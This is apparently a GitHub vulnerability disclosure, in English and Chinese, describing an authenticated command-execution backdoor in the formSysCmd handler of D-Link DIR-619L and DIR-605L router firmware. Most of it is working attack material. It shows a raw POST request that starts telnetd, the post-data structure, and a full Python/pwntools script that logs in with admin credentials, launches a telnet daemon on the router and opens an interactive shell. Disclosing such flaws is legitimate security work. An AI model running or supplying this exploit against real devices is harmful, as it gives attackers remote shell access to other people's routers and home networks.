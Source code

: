 ```
Dlink model DIR-619L, the latest firmware 2.06B1, there is a backdoor function that can cause any system command to be executed after user authentication
download link: ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/
Vulnerability location: file:  /bin/boa  function:formSysCmd
The attacker calls this function by sending a post packet to the http://ip/goform/formSysCmd page.
The program will call the system function with the value of syscmd in the post package.
The same problem exists with the latest firmware 2.12B1 on the DIR-605L.
download link:ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-605L/REVB/

```
Post package structure

``` python
postData = {
	'sysCmd':cmd,
	'submit-url':'1234',
	}
response = requests.post('http://192.168.0.1/goform/formSysCmd',data=postData)
``` 
Http message:
``` 
POST /goform/formSysCmd HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.20.1
Content-Length: 36
Content-Type: application/x-www-form-urlencoded
submit-url=1234&sysCmd=telnetd+-p+90
``` 
The same problem exists with the latest firmware 2.12B1 on the DIR-605L.
download link:ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-605L/REVB/

![images](https://github.com/WhooAmii/iot/blob/master/DIR-619/8.png)

![images](https://github.com/WhooAmii/iot/blob/master/DIR-619/7.png)





Dlink型号DIR-619L最新固件2.06B1上存在验证身份后命令执行后门。
下载地址：ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/
攻击者可在验证身份后执行任意的系统命令。
漏洞位置 /bin/boa上的formSysCmd函数。
攻击者通过向http://ip/goform/formSysCmd页面发送post包调用此函数。
程序会将post包中syscmd的值通过sprintf后调用system函数。
Post结构
postData = {
	'sysCmd':cmd,
	'submit-url':'1234',
	}
	response = requests.post('http://192.168.0.1/goform/formSysCmd',data=postData)
http报文:
POST /goform/formSysCmd HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.20.1
Content-Length: 36
Content-Type: application/x-www-form-urlencoded
submit-url=1234&sysCmd=telnetd+-p+90

型号DIR-605L最新固件2.12B1上同样存在该问题。
下载地址ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-605L/REVB/


 
Script:
``` python
import requests
import sys
import struct
import base64
from pwn import *
ip='192.168.0.1'
port=101
def login(user,password):
	postData = {
	'login_name':'',
	'curTime':'12345',
	'FILECODE':'',
	'VER_CODE':'',
	'VERIFICATION_CODE':'',
	'login_n':user,
	'login_pass':base64.b64encode(password),
	}
	response = requests.post('http://192.168.0.1/goform/formLogin',data=postData)
def syscmd(cmd):
	postData = {
	'sysCmd':cmd,
	'submit-url':'1234',
	}
	response = requests.post('http://192.168.0.1/goform/formSysCmd',data=postData)
def inter():
	p=remote(ip,port)
	p.interactive()
if __name__ == "__main__":
	login('admin','123456')
	syscmd('telnetd -p '+str(port))
	inter()
	
``` 

